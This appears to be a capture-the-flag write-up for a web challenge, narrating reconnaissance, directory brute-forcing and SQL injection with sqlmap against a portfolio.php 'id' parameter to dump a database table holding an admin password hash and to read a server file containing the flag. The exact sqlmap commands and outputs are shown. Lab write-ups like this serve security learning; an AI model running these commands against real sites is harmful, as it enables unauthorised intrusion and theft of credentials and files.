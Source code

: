 # Exploration Phase #
I first started off with exploring the website and seeing what possible vulnerabilities it may have.

There are a few things that stood out to me initially:
1. "Contact me" form inputs could be possibly used for xss or injections
2. the web directory is publically viewable
3. comments left throughout the html give hints toward some vulnerabilities and other files not publicly seen. according to the comments:
	- a hint on how one of the php files work a little
	- there is "portfolio.php" that takes params "?id"

# "Contact Me" #
I tried inputing some html and js to see if it was prone to XSS, but the response is always 500 leading it to a dead end

# Web Dir #
I explored different directorys (/images, /js, /mail) but none seemed to provide enough information to be used.

# Comments #
The hints of changing the email in one of the files is no help to figuring out a vulnerability if we cant see the file.

I took a look at the `/portfolio.php?id=1` and found if id is 1-3 it will return text.

# SQL Map #
seeing that this file and parameters may be the only vulnerability, I tried SqlMap against it.

I ran `sqlmap -u ip:port/portfolio.php?id=1 --tables` to get all the schemes and tables if there are any.

It ran successfuly and fond out the database is Mysql and it was able to get multiple schemes.
Most of them were mysql config schemes but this one seemed promissing:
```
Database: freelancer
[2 tables]
+----------------------------------------------------+
| portfolio                                          |
| safeadmin                                          |
+----------------------------------------------------+
```

I wanted to take a look at `safeadmin` so I ran `sqlmap -u ip:port/portfolio?id=1 -T safeadmin` and got the following:
```
Database: freelancer
Table: safeadmin
[1 entry]
+----+--------------------------------------------------------------+----------+---------------------+
| id | password                                                     | username | created_at          |
+----+--------------------------------------------------------------+----------+---------------------+
| 1  | $2y$10$s2ZCi/tHICnA97uf4MfbZuhmOZQXdCnrM9VM9LBMHPp68vAXNRf4K | safeadm  | 2019-07-16 20:25:45 |
+----+--------------------------------------------------------------+----------+---------------------+
```

# Password #
Looking at the password imediatly I can tell they used one of PHP's `password_hash(...)` functions, depening on what they used it could be difficult to crack.

I decided to circle back to this later. Now knowing that there is a user I assumed there would be some form or login to authenticate with this user.

# OWASP Dir Buster #
I ran Dir Buster to look for more routes that I could not see immediatly. For this task I ran it with 100 threads and used the `common.txt` list located in `/usr/share/dirb/wordlists/`

letting the program run for a bit of time, it imediately found some files that I did not find on my exploration:
1. administrat folder
2. htaccess files + folders

I cut the run short and re-ran it but this time on the `/administrat` folder to see what files it has faster.
The Program found may more files in the administrat folder:
1. logout.php
2. index.php
3. panel.php

checking out the administrat page on the browser it is clearly a login for a admin user, but without the proper credentials it is useless. The logout page is only for logging out, it will not help get the flag.

# SqlMap File #
I wanted to check out the `panel.php`, knowing that the some web directories use `/var/www/html/` file, I ran `sqlmap -u ip:port/portfolio.php?id=1 --file-read="/var/www/html/administrat/panel.php"` to retrieve the file content.

checking the content of the panel.php I just extracted, I found the flag I was looking for!